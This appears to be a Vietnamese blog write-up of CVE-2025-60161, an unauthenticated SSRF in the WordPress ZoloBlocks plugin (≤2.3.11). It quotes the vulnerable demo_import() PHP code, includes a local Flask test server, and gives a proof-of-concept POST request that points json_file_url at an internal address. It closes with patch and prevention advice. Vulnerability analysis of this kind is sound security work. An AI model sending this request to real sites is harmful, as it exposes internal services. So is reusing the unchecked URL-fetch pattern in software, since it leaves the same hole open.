


<!--more-->

## CVE & Basic Info
Lỗ hổng Server-Side Request Forgery (SSRF) trong BdThemes ZoloBlocks cho phép kẻ tấn công thực hiện yêu cầu giả mạo từ phía máy chủ. Sự cố này ảnh hưởng đến các phiên bản ZoloBlocks từ không xác định cho đến 2.3.11.

* **CVE ID**: [CVE-2025-60161](https://www.cve.org/CVERecord?id=CVE-2025-60161)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.3.11
* **Patched Versions**: 2.3.12
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress ZoloBlocks Plugin](https://wordpress.org/plugins/zoloblocks/advanced/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **ZoloBlocks**: **2.3.11** (vulnerable) và **2.3.12** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

Lỗ hổng này xuất hiện trong tệp `TemplatesV1.php`, tuy nhiên tệp này đã bị loại bỏ trong phiên bản vá lỗi.



### Vulnerable Code 
```php {title="TemplatesV1.php - v2.3.11" hl_lines=[12]}
public function demo_import() {
    // Kiểm tra tham số đầu vào từ POST
    if (!isset($_POST['json_file_url'])) {
        wp_send_json_error('No JSON file URL provided');
        return;
    }

    // Lấy và làm sạch URL người dùng cung cấp
    $json_file_url = sanitize_text_field(wp_unslash($_POST['json_file_url']));

    // Gửi yêu cầu HTTP đến URL đó
    $response = wp_remote_get($json_file_url, ['timeout' => 30]);

    // Nếu lỗi khi fetch dữ liệu, trả JSON lỗi
    if (is_wp_error($response)) {
        wp_send_json_error('Failed to fetch JSON data');
        return;
    }

    // Lấy nội dung phản hồi và giải mã JSON
    $body    = wp_remote_retrieve_body($response);
    $data    = json_decode($body, true);
    $content = $data['content'] ?? '';

    // Trả kết quả JSON thành công cùng nội dung import
    wp_send_json_success([
        'status'   => 'success',
        'message'  => __('Pattern imported successfully!', 'zoloblocks'),
        'content'  => $content,
    ]);
}
```


Hàm `demo_import()` nhận URL từ người dùng => gửi yêu cầu HTTP (`wp_remote_get`) để tải dữ liệu JSON → giải mã và trả về kết quả qua `wp_send_json_success()`.
Vì không kiểm tra hoặc giới hạn URL, nên có thể bị lợi dụng gây **SSRF**.


Hàm `demo_import()` được đăng kí làm callback cho action hook:

```php
add_action('wp_ajax_nopriv_zolo_demo_import', [$this, 'demo_import']);
```

Điều này có nghĩa là:

* Hook `wp_ajax_nopriv_` được sử dụng cho **người dùng chưa đăng nhập** (anonymous users).
* Khi client gửi request AJAX đến endpoint `/wp-admin/admin-ajax.php?action=zolo_demo_import`, WordPress sẽ gọi hàm `demo_import()`.

### Flow


graph TD
A["admin-ajax.php?action=zolo_demo_import"] --> B["wp_ajax_nopriv_zolo_demo_import"]
B --> C["demo_import()"]
C --> D["sanitize_text_field()"]
D --> E["wp_remote_get(json_file_url)"]
E --> F{"is_wp_error(response)?"}
F -- Yes --> G["wp_send_json_error()"]
F -- No --> H["json_decode(body) → extract URLs"]
H --> I["wp_send_json_success()"]


## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST request với URL trỏ đến local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=zolo_demo_import&json_file_url=http://127.0.0.1:8001/metadata
```

**Result**:



## Conclusion

CVE-2025-60161 là một SSRF trong `demo_import()` của ZoloBlocks (≤ 2.3.11) do nhận URL từ người dùng và gọi `wp_remote_get()` mà không kiểm tra. Endpoint cho phép truy cập không xác thực (`wp_ajax_nopriv_...`). Vấn đề đã được vá trong **2.3.12**.

## Key takeaways

* Nguyên nhân: không validate/whitelist URL trước khi `wp_remote_get()`.
* Ảnh hưởng: site chạy ZoloBlocks ≤ 2.3.11; attacker có thể truy vấn dịch vụ nội bộ (SSRF).
* Khắc phục nhanh: cập nhật lên **2.3.12** hoặc chặn endpoint `zolo_demo_import`.
* Phòng ngừa: whitelist/validate URL, giới hạn egress, bảo vệ AJAX bằng nonce/quyền.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress ZoloBlocks Plugin <= 2.3.11 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/zoloblocks/vulnerability/wordpress-zoloblocks-plugin-2-3-9-server-side-request-forgery-ssrf-vulnerability?_s_id=cve) 
